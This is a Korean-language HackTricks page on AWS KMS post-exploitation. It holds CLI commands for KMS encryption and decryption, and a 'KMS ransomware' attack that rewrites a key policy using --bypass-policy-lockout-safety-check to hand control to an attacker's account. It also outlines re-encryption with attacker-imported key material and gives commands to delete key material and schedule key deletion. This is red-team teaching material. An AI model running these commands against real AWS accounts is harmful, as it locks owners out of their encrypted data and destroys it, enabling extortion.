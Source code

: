 # AWS - KMS Post Exploitation

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹을 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF로 HackTricks를 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## KMS

자세한 정보는 확인하세요:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 정보 암호화/복호화

* **대칭** 키를 사용
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **비대칭** 키를 사용합니다:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
만약 kms decrypt를 수행하려고 할 때 'Decrypt 작업을 호출할 때 오류가 발생했습니다 (InvalidCiphertextException):' 오류를 받는다면 **`fileb://`** 대신 **`--ciphertext-blob file://`**을 사용해보세요.

**`file://`**을 사용하면 CLI를 사용할 때 선호하는 인코딩으로 작성된 파일을 사용할 수 있어 편리합니다.
CLI의 1.6.3 버전 이상에서는 파일의 내용을 CLI에 전달하는 또 다른 방법인 **`fileb://`**에 액세스할 수 있습니다. 이 방법은 **`file://`**과 유사하게 작동하지만 파일의 내용을 텍스트로 읽는 대신 이진으로 읽습니다.

대부분의 경우 **`file://`**이 파일의 내용을 입력으로 전달하는 데 사용될 것입니다. 그러나 파일의 내용을 텍스트로 읽는 대신 바이너리로 전달해야 하는 경우도 있습니다. 이때 **`fileb://`**을 사용해야 합니다.
AWS에서 자세히 읽어보세요: [AWS 블로그 - 로컬 파일 매개변수의 모범 사례](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

KMS에 특권 액세스 권한이 있는 공격자는 키의 KMS 정책을 수정하고 **그의 계정에 대한 액세스 권한을 부여**하여 합법적인 계정에 부여된 액세스를 제거할 수 있습니다.

그러면 합법적인 계정 사용자들은 해당 키로 암호화된 서비스의 어떤 정보에도 액세스할 수 없게 되어 계정에 쉽고 효과적인 랜섬웨어를 만들 수 있습니다.

{% hint style="warning" %}
**AWS 관리형 키**는 이 공격의 영향을 받지 않습니다. 오직 **고객 관리형 키**만 영향을 받습니다.

또한 웹 콘솔에서 이 공격을 수행할 수 있게 하는 것은 **`--bypass-policy-lockout-safety-check`** 매개변수를 사용해야 한다는 점을 유의하세요 (이 옵션이 웹 콘솔에 없어서 이 공격은 CLI에서만 가능합니다).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
해당 정책을 변경하여 외부 계정에만 액세스 권한을 부여한 후 이 외부 계정에서 새 정책을 설정하여 **액세스 권한을 원래 계정에 다시 부여하려고 하면 할 수 없습니다**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 일반 KMS 랜섬웨어

#### 전역 KMS 랜섬웨어

전역 KMS 랜섬웨어를 수행하는 또 다른 방법이 있습니다. 다음 단계를 포함할 수 있습니다:

* 공격자가 가져온 키 자료로 새 **키를 생성**
* 이전 버전으로 암호화된 이전 데이터를 새로운 것으로 **다시 암호화**
* **KMS 키를 삭제**
* 이제 원래 키 자료를 가진 공격자만 암호화된 데이터를 해독할 수 있습니다

### 키 파기
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS는 이제 **다른 계정 간에 이전 작업을 수행하는 것을 방지**합니다.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 제로부터 전문가까지 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
